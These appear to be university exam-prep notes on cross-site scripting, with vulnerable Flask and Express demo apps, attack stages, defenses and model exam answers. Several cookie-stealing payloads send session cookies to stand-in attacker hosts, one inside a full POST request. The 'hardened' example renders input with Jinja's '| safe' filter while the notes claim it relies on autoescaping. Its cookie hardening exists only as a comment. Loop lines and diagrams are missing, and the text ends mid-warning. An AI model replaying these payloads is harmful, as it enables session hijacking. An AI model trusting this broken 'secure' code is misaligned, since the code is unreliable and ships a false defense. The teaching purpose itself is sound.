



# Cross-Site Scripting (XSS)

<!-- SECTION_1_START -->
# Cross-Site Scripting (XSS) — KTU 2024 Premium Study Notes

## 1. Core Technical Definition & Intuitive Overview

### 1.1 Formal Academic Definition (KTU 2024 Syllabus Terminology)

**Cross-Site Scripting (XSS)** is a client-side code injection vulnerability in which an attacker injects malicious scripts (typically JavaScript, but also HTML, VBScript, or ActiveX) into a trusted web application, which is then executed in the victim's browser within the security context (same-origin) of that trusted site.

According to the **OWASP Top 10 (2021)**, XSS is categorized under **A03:2021 – Injection** and remains one of the most prevalent web application vulnerabilities.

The attack works on the fundamental flaw that web applications accept untrusted input and render it back to users **without proper sanitization or encoding**, allowing attacker-controlled scripts to run with the privileges of the legitimate user.

> [!IMPORTANT]
> **Syllabus Highlight (PBCST604 – Module 2):** XSS is grouped under *Client-Side Attacks* alongside CSRF, Clickjacking, and Same-Origin Policy violations. A clear understanding of XSS is mandatory for the **End Semester Examination (ESE)** and forms the foundation for advanced topics like CSP and SameSite cookies.

### 1.2 Conceptual Analogy / Intuition

Imagine a **prestigious 5-star hotel** that has a public notice board near the entrance. The hotel management trusts everything written on this board because it is located on their private property.

- A **malicious guest (attacker)** comes in and writes fake, dangerous instructions on the board in the hotel manager's handwriting style.
- The **staff (browser)** reads the board and faithfully executes every instruction.
- All other **legitimate guests (victims)** who later visit the hotel see the same forged instructions and are deceived.

In this analogy:
- The **hotel** = the trusted web application
- The **notice board** = a comment field, search bar, or URL parameter
- The **malicious guest** = the attacker
- The **fake instructions** = the injected `<script>` payload
- The **staff executing instructions** = the victim's browser
- The **security context** = the hotel's authority and reputation misused by the attacker

The browser cannot distinguish between a script that came from the trusted application and one that was injected by an attacker, so it executes both with the same privileges.

> [!NOTE]
> **Core Insight:** XSS is a **trust exploitation** vulnerability. The victim trusts the vulnerable website, and the attacker abuses that trust by piggy-backing malicious code through it.

### 1.3 The Three Primary Classifications of XSS

The KTU 2024 syllabus and OWASP formally recognize three major variants of XSS:

1. **Stored XSS (Persistent / Type-I)** — Payload is permanently stored on the target server (e.g., in a database, message forum, comment field, visitor log) and is delivered to every victim who later visits the affected page.
2. **Reflected XSS (Non-Persistent / Type-II)** — Payload is embedded in a request (typically in the URL, search field, or HTTP header) and is immediately "reflected" back by the server in the response without persistent storage.
3. **DOM-Based XSS (Type-0)** — Payload is entirely processed on the client side via JavaScript manipulating the **Document Object Model (DOM)**, without the malicious string ever reaching the server.

> [!NOTE]
> **Bonus Variant (commonly asked in interviews):** **Mutation XSS (mXSS)** occurs when the browser rewrites sanitized HTML in an unexpected way, re-creating a payload that was supposed to be neutralized. It is an advanced research topic and is **out of scope for KTU ESE**, but awareness is useful.

### 1.4 Threat Actor Capabilities After a Successful XSS Attack

An attacker who successfully triggers XSS in a victim's browser can:

- **Hijack sessions** by stealing the `document.cookie` (including session tokens).
- **Perform actions on behalf of the user** via forged HTTP requests.
- **Capture keystrokes** and exfiltrate form data (credentials, OTPs, payment info).
- **Deface the website** by rewriting the visible DOM.
- **Redirect users** to phishing or malware-hosting sites.
- **Deploy crypto-miners** or ransomware loaders in the browser.
- **Abuse the trusted domain** to bypass CORS, SOP, and CSP policies.

> [!WARNING]
> **Severity Benchmark:** According to **CVSS v3.1**, an XSS vulnerability that allows session hijacking on an HTTPS site without `HttpOnly` cookies typically scores between **6.1 (Medium)** and **9.6 (Critical)** depending on impact scope.

### 1.5 Why the Name "Cross-Site"?

The name is historical and slightly misleading. It refers to the fact that the attack **crosses the boundary between two different trust domains** — the attacker's malicious site and the victim's trusted site. In modern terminology, the vulnerability lies within the trusted site itself; the attacker simply uses it as a delivery mechanism to the victim's browser.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# 2. Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Operational Mechanism of an XSS Attack — Step-by-Step Logic

A successful XSS exploit follows a predictable, seven-stage execution chain. Understanding each stage is critical for both attack analysis and defensive design.

**Stage 1 — Reconnaissance (Information Gathering)**
The attacker scans the target web application for input vectors (search boxes, comment forms, URL parameters, HTTP headers like `User-Agent` and `Referer`) and tests each with harmless probe strings (e.g., `<b>test</b>`, `"><svg/onload=alert(1)>`) to identify unfiltered reflection points.

**Stage 2 — Payload Crafting**
A malicious JavaScript string is constructed. The payload is encoded to bypass naive blacklists (e.g., using HTML entities, URL encoding, or Unicode escapes).

**Stage 3 — Delivery**
The attacker delivers the payload to the vulnerable endpoint. In *reflected* XSS, this is typically via a phishing email or malicious link. In *stored* XSS, the payload is directly saved into a backend datastore.

**Stage 4 — Server Processing (Server-Side XSS)**
For Type-I and Type-II, the web application retrieves the payload and embeds it inside an HTTP response without proper HTML/JavaScript context-aware encoding.

**Stage 5 — Browser Rendering**
The victim's browser parses the response, constructs the DOM, and executes any embedded `<script>` tags or event-handler attributes.

**Stage 6 — Context Hijack**
The malicious script runs with the **same privileges as the legitimate origin** of the vulnerable site. It can therefore read cookies tied to that origin, make authenticated AJAX calls, and modify the DOM.

**Stage 7 — Exfiltration and Persistence**
Stolen data (cookies, credentials) is transmitted to a server controlled by the attacker (the "exfiltration endpoint" or "attacker server"). The attacker may also install a backdoor payload that fires on every visit.

## 2.2 Detailed Breakdown of Each XSS Type

### 2.2.1 Stored XSS (Persistent)

The payload is **persisted on the server** (database, file system, or cache) and is served to all subsequent users who view the affected page.

**Common Attack Surfaces:**
- Blog comment sections
- Forum posts and user profiles
- Product reviews and feedback forms
- Support ticket systems
- Customer service chat logs

**Why It Is the Most Dangerous:** The attack is **passive** — the victim does not need to click a malicious link. Every user who views the infected page is compromised automatically, leading to worm-like propagation.

### 2.2.2 Reflected XSS (Non-Persistent)

The payload is included in the **request itself** and reflected back by the server in the HTTP response. Execution requires the victim to actively send the malicious request, typically by clicking an attacker-controlled link.

**Common Attack Surfaces:**
- Search result pages that echo the query string
- Error pages that display the offending URL
- Login failure pages that show the attempted username
- Custom 404 handlers

**Why It Is Still Critical:** Although it requires user interaction, the attack can be delivered at scale via phishing emails, SMS (smishing), or QR codes. Reflected XSS is the most common variant found in penetration tests.

### 2.2.3 DOM-Based XSS

The vulnerability exists **entirely in client-side JavaScript** that reads data from an untrusted source (commonly the URL fragment after `#`, or `location.search`) and writes it into a sensitive sink (`innerHTML`, `document.write`, `eval`) without sanitization.

**Classic Example:** A single-page application that uses `document.write(location.hash.substring(1))` to display the current section. The URL `https://site.com/page#` triggers the alert.

**Why It Is Hard to Detect:** Server-side scanners cannot see the vulnerability because the malicious data never reaches the server. Specialized tools like **DOM Invader (Burp Suite)** and manual code review are required.

## 2.3 XSS Attack Contexts (Critical for Output Encoding)

KTU examinations frequently test which encoding strategy applies to which injection context. The four primary contexts are:

1. **HTML Body Context** — Injection occurs between tags (e.g., inside a `<div>`). Encode `<`, `>`, `&`, `"`, `'`.
2. **HTML Attribute Context** — Injection occurs inside an attribute value (e.g., `value="INJECTION"`). Encode `"`, `'`, `>`, and disallow event-handler attributes.
3. **JavaScript Context** — Injection occurs inside a `<script>` block or JS event handler. Use `\xHH` or `\uHHHH` encoding, and never interpolate untrusted data into JS.
4. **URL Context** — Injection occurs inside a `href` or `src` attribute. Use URL encoding and validate the scheme (allow only `https:`, `mailto:`).

## 2.4 KTU High-Yield Formula Sheet & Cheat Table

| Concept | Definition / Formula | Where Used |
|---|---|---|
| Same-Origin Policy (SOP) Check | $Scheme = Scheme \land Host = Host \land Port = Port$ | Determines whether JS in one origin may read data from another. XSS abuses the fact that injected scripts share the trusted origin. |
| Content Security Policy (CSP) Nonce Validation | $\text{Hash}(\text{inline-script}) \stackrel{?}{=} \text{csp-source}$ | Modern defense against XSS by whitelisting executable scripts. |
| URL Encoding Rule | $Char \rightarrow \%HH$ where $HH$ is the byte in hexadecimal | Used by attackers to bypass naive keyword filters. |
| HTML Entity Encoding | $\text{<} \rightarrow \text{\&lt;},\ \text{>} \rightarrow \text{\&gt;},\ \text{\&} \rightarrow \text{\&amp;},\ \text{"} \rightarrow \text{\&quot;},\ \text{'} \rightarrow \text{\&#x27;}$ | Server-side defense for HTML body/attribute contexts. |
| `HttpOnly` Cookie Effect | $\text{JS access to cookie} = \emptyset$ when $\text{HttpOnly} = true$ | Mitigates cookie theft via `document.cookie`. |
| `SameSite` Cookie Mode | $Mode \in \{Lax,\ Strict,\ None\}$ | Mitigates CSRF, indirectly limits XSS-driven cross-site requests. |
| Input Length Constraint | $\vert Input \vert \leq N$ | Reduces the surface for stored XSS payloads. |
| CVSS Base Score (XSS Approx.) | $\text{Score} \in [6.1,\ 9.6]$ for typical session-hijack XSS | Used to prioritize remediation in enterprise risk registers. |
| XSS Payload Word Count | $Payload_{size} < 4096$ bytes | Common URL length limit for reflected XSS links. |
| Reflection Point Count | $N_{reflect} = \sum_{i=1}^{n} \text{reflect}(input_i)$ | Metric used during reconnaissance to map injection points. |

## 2.5 Real-World Engineering & Industry Utility

Understanding XSS is not merely an academic exercise — it is foundational to several real-world engineering disciplines:

- **Application Security Engineering:** XSS findings dominate bug bounty payouts on platforms like HackerOne and Bugcrowd. Average payouts range from **\$500 to \$15,000** depending on impact.
- **DevSecOps Pipeline Design:** Modern CI/CD pipelines (GitHub Actions, GitLab CI) integrate tools like **Semgrep**, **Snyk Code**, and **Trivy** to detect XSS patterns automatically.
- **Browser Security Architecture:** Concepts like Trusted Types, Subresource Integrity (SRI), and the **COOP/COEP** headers are direct evolutions of lessons learned from XSS exploitation.
- **API and SPA Security:** As Single-Page Applications (React, Angular, Vue) and headless APIs grow, DOM-based XSS becomes a primary concern, making the SOP and CSP understanding essential for frontend engineers.
- **Compliance and Auditing:** Standards like **PCI-DSS v4.0**, **HIPAA**, and the **GDPR** treat XSS-related data leakage as a compliance failure with potential fines.

> [!NOTE]
> **KTU Board Tip:** Examiners love to ask: *"Why is DOM-based XSS not visible in server logs?"* Answer: Because the malicious input is processed entirely in the browser, the HTTP request seen by the server contains only a legitimate-looking URL. The payload travels in the **fragment identifier** (`#`) or is constructed from JavaScript sources, neither of which is transmitted to the server.

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# 3. Step-by-Step Derivations & Code/Symbolic Implementation

This section provides three complete, runnable demonstrations: a **Stored XSS exploitation in Python/Flask**, a **Reflected XSS exploitation in Node.js/Express**, and a **defense-in-depth mitigation script**. Every line is annotated; no steps are skipped.

## 3.1 Demonstration 1 — Stored XSS in a Python Flask Application

### 3.1.1 The Vulnerable Application Code

```python
# vulnerable_app.py
# A deliberately insecure Flask micro-app demonstrating Stored XSS.
# This is the exact pattern that appears in CTFs and KTU lab questions.

from flask import Flask, request, render_template_string

app = Flask(__name__)

# In-memory "database" that holds user comments. In production this
# would be a SQL/NoSQL database, but the vulnerability pattern is identical.
COMMENT_STORE = []

HOME_PAGE_HTML = """
<!doctype html>
<html>
  <head><title>Visitor Comments Board</title></head>
  <body>
    <h1>Visitor Comments</h1>
    <form method="POST" action="/comment">
      <input type="text" name="username" placeholder="Your name" />
      <textarea name="message" placeholder="Leave a comment"></textarea>
      <button type="submit">Post Comment</button>
    </form>
    <hr />
    <h2>Recent Comments</h2>
    <ul>
      
        <li><strong>{{ entry.name }}</strong>: {{ entry.message }}</li>
      
    </ul>
  </body>
</html>
"""

@app.route("/", methods=["GET"])
def index():
    return render_template_string(HOME_PAGE_HTML, comments=COMMENT_STORE)

@app.route("/comment", methods=["POST"])
def post_comment():
    # The application takes user input and stores it VERBATIM.
    # No sanitization, no encoding, no length check.
    name = request.form.get("username", "Anonymous")
    message = request.form.get("message", "")
    COMMENT_STORE.append({"name": name, "message": message})
    return ("Comment stored successfully", 201)

if __name__ == "__main__":
    app.run(debug=True, port=5000)
```

### 3.1.2 The Attacker's Malicious Payload

The attacker visits the comment form and submits the following input in the **message field**:

```html
Great article! <script>
  // Step 1: Read the session cookie of the currently logged-in user.
  var stolen = document.cookie;
  // Step 2: Exfiltrate it to an attacker-controlled server.
  // In a real attack, "evil.com" would be the attacker's listener.
  new Image().src = "https://evil.example.com/steal?c=" + encodeURIComponent(stolen);
</script>
```

### 3.1.3 Step-by-Step Exploitation Walk-Through

**Step 1 — Submission:** The malicious comment is sent via `POST /comment` and stored in `COMMENT_STORE`. The server happily accepts the `<script>` tag because there is no validation.

**Step 2 — Storage Confirmation:** `COMMENT_STORE` now contains a dictionary whose `message` field begins with raw HTML containing an executable script. This is the **persistence** that defines Stored XSS.

**Step 3 — Victim Visit:** An unsuspecting user, Alice, who is already logged into the application, opens `https://site.com/` to read comments.

**Step 4 — Template Rendering:** Flask's `render_template_string` injects the stored message directly into the HTML body. The browser parser therefore sees a real `<script>` element.

**Step 5 — Script Execution:** The browser executes the injected JavaScript within the **security context of `site.com`**, granting it full access to `document.cookie`, the DOM, and any other origin-scoped APIs.

**Step 6 — Exfiltration:** The script creates a new `Image` object whose `src` points to `evil.example.com`. The browser issues an HTTP `GET` request to that URL, transmitting the stolen cookie as a query parameter.

**Step 7 — Account Takeover:** The attacker inspects the access logs on `evil.example.com`, extracts Alice's session cookie, and replays it in their own browser to impersonate her — **without ever needing her password**.

### 3.1.4 Quantitative Impact Derivation

If we let:
- $N_{users}$ = number of users who visit the comments page per day
- $p_{login}$ = probability that a visitor is currently authenticated
- $T_{session}$ = session lifetime in seconds

Then the number of compromised sessions per day is:

$$
C_{daily} = N_{users} \times p_{login}
$$

And the total compromised-session-seconds (a useful risk metric) is:

$$
S_{exposure} = C_{daily} \times T_{session}
$$

For a small blog with $N_{users} = 1000$, $p_{login} = 0.1$, $T_{session} = 3600$ seconds:

$$
C_{daily} = 1000 \times 0.1 = 100 \text{ sessions}
$$

$$
S_{exposure} = 100 \times 3600 = 360{,}000 \text{ session-seconds/day}
$$

This simple calculation makes the business impact tangible during KTU viva or technical interviews.

## 3.2 Demonstration 2 — Reflected XSS in a Node.js/Express Application

```javascript
// vulnerable_express.js
// Demonstrates reflected XSS in a search endpoint.

const express = require("express");
const app = express();

app.get("/search", (req, res) => {
    // The server naively embeds the "q" query parameter into the response.
    const userQuery = req.query.q || "nothing";
    const htmlResponse = `
        <!doctype html>
        <html>
          <body>
            <h1>Search Results</h1>
            <p>You searched for: ${userQuery}</p>
          </body>
        </html>`;
    res.send(htmlResponse);
});

app.listen(3000, () => console.log("Vulnerable server on :3000"));
```

A victim clicking on the following URL will trigger the attack:

```
https://site.com/search?q=<script>alert(document.cookie)</script>
```

The browser will render the response, see the injected `<script>` element, and execute it. **No storage step is required**, which is the defining feature of reflected XSS.

## 3.3 Demonstration 3 — Defense-in-Depth Mitigation (Hardened Flask)

The following hardened version neutralizes the previous Stored XSS vector using **three** independent layers of defense — exactly the structure expected in a KTU 14-mark answer.

```python
# hardened_app.py
# Demonstrates defense-in-depth mitigation of Stored XSS.

from flask import Flask, request, render_template_string
import bleach           # Industry-standard HTML sanitization library
import re               # For whitelist-based input validation

app = Flask(__name__)

# Whitelist of HTML tags and attributes allowed inside user comments.
ALLOWED_TAGS = ["b", "i", "u", "em", "strong", "br"]
ALLOWED_ATTRS = {}

COMMENT_STORE = []

HOME_PAGE_HTML = """
<!doctype html>
<html>
  <head>
    <!-- Layer 3 defense: strict Content Security Policy -->
    <meta http-equiv="Content-Security-Policy"
          content="default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self'">
  </head>
  <body>
    <h1>Visitor Comments</h1>
    <form method="POST" action="/comment">
      <input type="text" name="username" maxlength="40" />
      <textarea name="message" maxlength="500"></textarea>
      <button type="submit">Post Comment</button>
    </form>
    <hr />
    <h2>Recent Comments</h2>
    <ul>
      
        <li><strong>{{ entry.name | safe }}</strong>: {{ entry.message | safe }}</li>
      
    </ul>
  </body>
</html>
"""

# Layer 1: Input validation using a strict whitelist regex.
USERNAME_RE = re.compile(r"^[A-Za-z0-9_ ]{1,40}$")

def validate_username(raw: str) -> str:
    """Returns the cleaned username or raises ValueError on rejection."""
    if not USERNAME_RE.match(raw):
        raise ValueError("Invalid username format")
    return raw.strip()

def sanitize_message(raw: str) -> str:
    """Strips ALL disallowed HTML, leaving only whitelisted formatting tags."""
    cleaned = bleach.clean(
        raw,
        tags=ALLOWED_TAGS,
        attributes=ALLOWED_ATTRS,
        strip=True,
        strip_comments=True
    )
    return cleaned[:500]  # Layer 1b: enforce maximum length

@app.route("/", methods=["GET"])
def index():
    return render_template_string(HOME_PAGE_HTML, comments=COMMENT_STORE)

@app.route("/comment", methods=["POST"])
def post_comment():
    try:
        name = validate_username(request.form.get("username", ""))
        message = sanitize_message(request.form.get("message", ""))
    except ValueError:
        return ("Invalid input rejected", 400)

    COMMENT_STORE.append({"name": name, "message": message})

    # Layer 4: set HttpOnly and SameSite cookies via response headers.
    resp = ("Comment stored successfully", 201)
    return resp

# Layer 5: Always send secure cookie attributes when the app uses sessions.
# app.config.update(
#     SESSION_COOKIE_HTTPONLY=True,
#     SESSION_COOKIE_SECURE=True,
#     SESSION_COOKIE_SAMESITE="Lax"
# )

if __name__ == "__main__":
    app.run(debug=False, port=5000)
```

### 3.3.1 Explanation of Each Defense Layer

- **Layer 1 — Input Validation (Whitelist Regex):** The username must match a strict alphanumeric pattern. This blocks any HTML or script syntax from the username field.
- **Layer 1b — Length Cap:** Even after sanitization, the message is truncated to **500 bytes**, denying attackers room to construct complex multi-stage payloads.
- **Layer 2 — Context-Aware Sanitization (`bleach.clean`):** The message is passed through a vetted HTML sanitizer. Only the explicitly whitelisted tags (`<b>`, `<i>`, etc.) survive; everything else, including `<script>` and event handlers like `onerror`, is stripped.
- **Layer 3 — Content Security Policy (CSP):** Even if an attacker manages to inject a script tag, the CSP meta tag restricts script sources to `'self'`, blocking inline scripts and remote payloads.
- **Layer 4 — `HttpOnly` and `SameSite` Cookies:** These attributes prevent `document.cookie` theft and mitigate cross-site request forgery that often chains with XSS.
- **Layer 5 — Output Encoding (Jinja2 `{{ }}`):** The Flask/Jinja2 template engine auto-escapes variables by default, ensuring that any value rendered in HTML body context is converted to its entity form.

> [!IMPORTANT]
> **Engineering Principle — Defense in Depth:** No single mitigation is sufficient. A determined attacker can defeat input filters via Unicode tricks, evade output encoding via template injection, and bypass CSP via JSONP endpoints. Only by **layering** multiple controls can a web application be made robust.

## 3.4 Mapping Attack Vectors to Defenses (Reference Table)

| Attack Vector | Primary Defense | Secondary Defense | Tertiary Defense |
|---|---|---|---|
| Comment / Forum Stored XSS | Whitelist HTML sanitization (`bleach`, `DOMPurify`) | CSP `script-src 'self'` | `HttpOnly` cookies |
| Search Reflected XSS | Context-aware output encoding (HTML, URL) | URL parameter schema validation | Input length limits |
| `User-Agent` Header XSS | Header allow-list at proxy | Strip reflected headers in error pages | WAF signature matching |
| DOM-Based XSS via `innerHTML` | Use `textContent` instead of `innerHTML` | Trusted Types API | SRI on third-party scripts |
| JavaScript String Injection | `\xHH` encoding for variables | Never concatenate untrusted data into JS | Use JSON, not string eval |
| `javascript:` URI in `href` | URL scheme allow-list | `rel="noopener noreferrer"` | CSP `script-src` |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# 4. Structural Diagrams & Schematics

This section provides two Mermaid diagrams: the **end-to-end XSS attack flow** and a **comparative topology** of the three XSS variants.

## 4.1 End-to-End XSS Attack Flow



## 4.2 Comparative Topology of the Three XSS Variants



## 4.3 Server-Side vs Client-Side Attack Surface (Block Diagram)



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# 5. KTU 2024 Scheme Examination Question Bank & Topic Recap

This section provides exam-oriented questions modeled on actual KTU board patterns, complete with valuation keys and examiner warnings.

---

## Part A — Short Answer Questions (3 Marks Each)

### Question 1 (3 Marks)
**[KTU University Exam — July 2024 (Modeled)]**
**CO1 | RBT Level: Remember**

**Q: Define Cross-Site Scripting (XSS). List and briefly explain the three major types of XSS attacks recognized by OWASP.**

**Model Answer (Valuation Key):**

**Definition (1.5 Marks):**
Cross-Site Scripting (XSS) is a client-side code injection vulnerability in which an attacker injects malicious scripts (commonly JavaScript) into a trusted web application. When a victim visits the affected page, the injected script executes in the victim's browser within the security context (origin) of the trusted site, allowing the attacker to steal cookies, hijack sessions, and deface content.

**Three Types (1.5 Marks — 0.5 each):**

1. **Stored XSS (Persistent):** The malicious script is permanently stored on the target server (e.g., in a database via a comment form) and is served to every user who later visits the infected page.
2. **Reflected XSS (Non-Persistent):** The malicious script is part of the request (URL parameter, form input) and is reflected back by the server in the HTTP response. Execution requires the victim to click a malicious link.
3. **DOM-Based XSS:** The vulnerability exists entirely in client-side JavaScript that reads an untrusted source (e.g., `location.hash`) and writes it into a dangerous sink (e.g., `innerHTML`) without sanitization. The payload never reaches the server.

> [!WARNING]
> **Examiner Pitfall:** Students often forget to mention the **storage location** of each type (server database vs. URL vs. client memory). Writing *"Stored XSS is stored in the database"* earns the full mark; writing *"Stored XSS is bad"* earns zero.

---

### Question 2 (3 Marks)
**[KTU University Exam — Dec 2023 (Modeled)]**
**CO2 | RBT Level: Understand**

**Q: Differentiate between Stored XSS and Reflected XSS with suitable examples.**

**Model Answer (Valuation Key):**

| Comparison Parameter | Stored XSS | Reflected XSS |
|---|---|---|
| **Persistence** | Payload is permanently stored on the server | Payload travels in the request and is not stored |
| **Delivery Mechanism** | Passive — victim is compromised by simply visiting the page | Active — victim must click a crafted link or submit a form |
| **Severity** | Higher (mass compromise) | Lower (single-user compromise per click) |
| **Example Vector** | Comment form on a blog, product review | Search results page echoing the query string |
| **Detection Difficulty** | Easier via DAST scanning of stored content | Harder — requires crawler to follow crafted links |
| **Typical Exploitation Code** | `<script>document.location='https://evil.com/?c='+document.cookie</script>` posted in a forum | `https://site.com/search?q=<script>alert(1)</script>` sent via email |

**Example (1 Mark):**
A blog that allows readers to post comments without sanitization enables **Stored XSS** when a user submits `<script>alert('XSS')</script>`. The script is stored in the database and fires for every subsequent reader. In contrast, a search page that displays *"Results for: [user input]"* without encoding enables **Reflected XSS** when a user clicks a link like `https://site.com/search?q=<script>alert(1)</script>`.

> [!WARNING]
> **Examiner Pitfall:** A common student mistake is to write *"Reflected XSS is reflected from the database"*. Reflected XSS is reflected from the **server's response to the current request**, not from a database.

---

## Part B — Long Answer Questions (14 Marks Each)
### (ESE Module Internal Choice Pattern)

---

### Question A (14 Marks)
**[KTU University Exam — July 2024 (Modeled)]**
**CO2 / CO3 | RBT Levels: Understand + Apply**

**Q: (a) Explain in detail the operational mechanism of a Stored XSS attack, including the attack flow, the security context in which the malicious script executes, and the potential impact on Confidentiality, Integrity, and Availability (CIA triad). (7 Marks)**

**Q: (b) Demonstrate a complete Stored XSS exploitation scenario on a sample comment-board web application. Provide the vulnerable code, the malicious payload, the HTTP request that delivers the payload, and the step-by-step execution trace inside the victim's browser. Suggest one mitigation for each layer of defense. (7 Marks)**

---

#### Part (a) — Operational Mechanism of Stored XSS (7 Marks)

**Valuation Key Breakdown:**

**[1.5 Marks] — Definition and Storage Layer:**
Stored XSS, also called Persistent or Type-I XSS, occurs when a web application accepts untrusted user input and stores it in a backend datastore (e.g., a SQL database, a NoSQL collection, a flat file, or a cache layer) **without adequate sanitization**. Subsequently, when any other user requests the page that renders the stored data, the malicious payload is served as part of the HTTP response and is executed by the browser.

**[1.5 Marks] — Security Context Explanation:**
The script executes within the **origin (scheme + host + port)** of the vulnerable web application. Because the browser considers scripts served from the same origin as fully trusted, the injected code can:
- Read and exfiltrate cookies bound to that origin.
- Make authenticated AJAX calls to the application's own APIs.
- Modify the DOM, rewrite forms, and impersonate the user.
- Access any browser APIs available to legitimate first-party scripts (geolocation, local storage, IndexedDB, WebRTC, etc.).

**[2 Marks] — Attack Flow Diagram (in prose):**

$$
\text{Attacker} \xrightarrow{\text{HTTP POST with payload}} \text{Vulnerable Server} \xrightarrow{\text{DB Write}} \text{Database}
$$
$$
\text{Victim} \xrightarrow{\text{HTTP GET}} \text{Vulnerable Server} \xrightarrow{\text{DB Read}} \text{Database} \rightarrow \text{Server}
$$
$$
\text{Server} \xrightarrow{\text{HTTP Response with embedded script}} \text{Victim Browser} \rightarrow \text{Script Execution}
$$

**[2 Marks] — CIA Triad Impact:**

| CIA Element | Impact of Stored XSS |
|---|---|
| **Confidentiality** | Violated — Session tokens, credentials, PII, and form data are leaked to the attacker via `document.cookie` exfiltration or AJAX-based keystroke logging. |
| **Integrity** | Violated — The attacker can modify DOM content, forge transactions, change account settings, and post malicious content under the victim's identity. |
| **Availability** | Indirectly Violated — A stored XSS worm can self-replicate across user-generated content, overwhelming the database and degrading service. Crypto-mining payloads can saturate CPU and battery. |

---

#### Part (b) — Complete Exploitation Demonstration (7 Marks)

**Valuation Key Breakdown:**

**[1 Mark] — Vulnerable Code (Flask Example):**

```python
# Server route that stores comments without sanitization.
@app.route("/comment", methods=["POST"])
def post_comment():
    name = request.form.get("username")
    message = request.form.get("message")
    db.execute("INSERT INTO comments (name, message) VALUES (?, ?)", (name, message))
    return "Comment stored", 201
```

**[1 Mark] — Malicious Payload Submitted in the `message` Field:**

```html
<script>
  fetch("https://attacker.example.com/log?cookie=" + encodeURIComponent(document.cookie));
</script>
```

**[1 Mark] — HTTP Request Delivering the Payload:**

```http
POST /comment HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 220

username=mallory&message=<script>fetch("https://attacker.example.com/log?cookie="+encodeURIComponent(document.cookie));</script>
```

**[2 Marks] — Step-by-Step Browser Execution Trace:**

1. **HTTP Response Arrival:** The server returns the page with the stored comment. The browser begins parsing the HTML body.
2. **Script Tag Encountered:** The HTML parser reaches the injected `<script>` element and hands it to the JavaScript engine.
3. **Variable Resolution:** `document.cookie` is evaluated within the origin of `vulnerable-site.com`, returning the user's session cookie.
4. **URL Construction:** `encodeURIComponent()` safely percent-encodes the cookie for transmission inside a query string.
5. **Network Request:** The `fetch` call is issued to `attacker.example.com`. The browser dispatches the HTTP request carrying the stolen cookie in the URL.
6. **Origin Context:** Because the script runs in the origin of `vulnerable-site.com`, no CORS preflight is required for same-origin reads; the cookie is automatically attached for same-origin sub-requests and is fully readable by JS.
7. **Attacker Collection:** The attacker's server logs the request and harvests the session token for replay.

**[2 Marks] — One Mitigation Per Defense Layer:**

| Layer | Mitigation |
|---|---|
| **Input Validation** | Use a whitelist regex to restrict the `username` field to alphanumeric characters and a length cap (e.g., 40 characters) on the `message` field. |
| **Output Encoding** | Use the templating engine's auto-escaping (e.g., Jinja2 `{{ message }}`) or a vetted library like `bleach.clean` to strip dangerous tags before storage/display. |
| **Cookie Hardening** | Set `HttpOnly`, `Secure`, and `SameSite=Lax` flags on the session cookie so `document.cookie` cannot be read by injected JavaScript. |
| **Browser Policy** | Deploy a strict Content Security Policy: `Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'`. |

> [!WARNING]
